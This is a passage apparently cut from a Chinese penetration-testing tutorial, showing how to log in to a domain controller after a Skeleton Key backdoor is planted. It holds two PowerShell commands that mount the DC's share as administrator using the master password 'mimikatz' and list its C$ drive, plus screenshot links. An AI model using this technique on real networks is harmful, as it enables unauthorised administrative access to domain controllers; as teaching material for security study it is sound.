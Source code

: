 #### [](#222-%E5%9C%A8%E5%9F%9F%E5%86%85%E4%B8%BB%E6%9C%BA%E4%BD%BF%E7%94%A8-skeleton-key-%E7%99%BB%E5%BD%95)2.2.2 在域内主机使用 Skeleton Key 登录

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>``` | ```powershell<br>net use \\dc.pentest.domain mimikatz /user:administrator@pentest.domain<br>dir \\DC.pentest.domain\c$<br>``` |

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20201208144833.png-water_print](assets/1699409504-c37743ccf52fdde7a8a17b32f644ea73.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20201208144833.png-water_print")

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20201208150046.png-water_print](assets/1699409504-059c90bc35e904ae186d6fad9f4f5deb.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20201208150046.png-water_print")
